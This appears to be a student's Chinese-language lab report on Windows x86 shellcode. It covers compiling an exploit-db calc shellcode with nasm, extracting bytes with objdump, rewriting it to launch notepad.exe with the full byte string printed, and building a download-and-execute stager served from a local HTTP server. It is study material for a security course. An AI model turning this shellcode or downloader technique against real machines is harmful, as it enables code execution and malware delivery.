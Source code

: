 ## 实验2
### 要求
- 把[这个链接](https://exploit-db.com/shellcodes/48116)中shellcode能够成功运行，
- 能从汇编源码编译通过并成功dump，
- 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理，
- 修改shellcode功能为运行记事本程序notepad. exe，
- (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行

### 实验过程/遇到的问题P/解决方案S

1> 将弹计算器的shellcode拷贝下来运行

P: 进程退出，弹计算器失败

S: ①将.cpp改为.c；②将x64的管理器改为x86  



2> 打开kali虚拟机，将弹计算器的shellcode的源码部分拷贝到kali上的一个.asm文件里，执行
```
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```  
得到shellcode字符串
![](img/calc-shellcode.PNG)

![](img/calc.PNG)  



3> 分别得到 ”\x00exe“ ”.dap“ “eton” 的十六进制码，将calc.exe字符串修改为notepad.exe

P: 这样修改会导致进程退出，弹notepad失败
![](img/change-notepad.PNG)

S: 把要改的部分删掉不是这样注释掉
![](img/change-notepad-success.PNG)  



4> 打开kali虚拟机，将弹notepad的shellcode的源码部分拷贝到kali上的一个.asm文件里，执行
```
nasm -f get_notepad.asm -o get_notepad.o
for i in $(objdump -D get_notepad.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```  
得到shellcode字符串
```
\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b
\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c
\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8
\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55
\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b
\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66
\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4
\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\xba
\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65
\x18\xe8\xb8\xff\xff\xff\x31\xc9\x68\x65\x78\x65\x00\x68\x70
\x61\x64\x2e\x68\x6e\x6f\x74\x65\x89\xe3\x41\x51\x53\xff\xd0
\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f
\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x83\xff\xff\xff\x31
\xd2\x52\xff\xd0
```

拷贝到.c里面执行
![](img/notepad.PNG)
注：源码见notepad.asm和get_notepad.c

5> 打开cmd执行`python -m http.server 8081`，查看本机IP地址，在指定文件夹开始http服务器，共享指定文件夹文件
![](img/python-http.PNG)

6> 执行dl_exec.cpp，下载了ov.exe，弹出notepad
![](img/download.PNG)
![](img/download-exe.PNG)
P：  
![](img/fangwenchongtu.PNG)
S: 改成LoadLibrary(L"urlmon.dll");



#### 参考
[使用Python开启简单的本地HTTP服务器](https://blog.csdn.net/u013214588/article/details/88684602)
